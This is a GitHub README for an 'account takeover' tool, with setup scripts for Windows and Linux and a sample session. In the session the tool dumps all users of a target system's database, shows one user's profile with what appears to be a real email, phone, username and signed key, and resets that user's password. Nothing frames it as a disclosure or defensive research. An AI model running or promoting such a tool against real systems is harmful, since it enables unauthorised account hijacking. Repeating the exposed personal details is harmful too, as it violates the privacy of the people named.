 # Account Take Over
This is a Account Take Over that demonstrates how to create a README.md file for installation and usage instructions.
![alt text](imgs/image.png)

## Table of Contents

- [Installation](#installation)
  - [Windows](#windows)
  - [Linux](#linux)
- [Usage](#usage)

## Installation
1. **Clone the repository:**

   ```bash
   git clone https://github.com/osochello/account_takeover.git

   cd account_takeover/
#### Windows

1. open cmd terminal as Adminstartor
2. Set Env and Install Requirments
3. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   config.bat

   #for running the script type
   run.bat

#### Linux

1. Open Termical
2. Steps For Running

   ```bash
   #setup virtual env and install requirment command
   chmod +x config.sh
   ./config.sh
   
   #for running the script type
   chmod +x run.sh
   ./run.sh


## Usage
1. When a started it ask you to enter for hosting ip Server
    ```bash 
        Enter IP Address For Server Hosting: 10.0.20.21
1. and then it display you these
    ```bash 
        1. Get All Users
        2. Account Take Over

        Choose option (1 or 2): 2
        Enter User Id You want to get his signed Hash: 21
3. if you choose 1 its display all users of the system database and save them to file.
4. so in my case i choose number 2 for account takeover and i tried to use user id 21 for testing 
    ```bash
                 Profile For Jaam Solutions Tech

            User Id : 21
            Profile Image : /static/assets/placeholder.jpeg
            Email : ayanlestyle@gmail.com
            Name : Jaam Solutions Tech
            Phone : 212112
            Username : baarepol90
            Nooca Userka : Baare
            Waaxda Userka : xabsigahbbbbb
            Institution : Jamhuuriyada Federaalka Somaaliya
            Signed_key : MjE:1rdoat:b0KeuhbNbjUSsxfTByU5W4b-TWj67emno7EuCgTfgqE
5. after display User Profile it also ask you these three questions
    ```bash
        1. Profile Change
        2. Reset Password
        3. Change User Password.

        Choose option (1 or 2): 3
6. i choose 3 for change user password
    ```bash
        Enter your new password:
        # hint use 8 characters include Capital and Symbols e.g(Aa@2024!$): Aa@2024!

        Sending Data To The Server

        {"isError": false, "Message": "Saved it successfully"}
7. finaly it shows message for Successfully Changes Password.
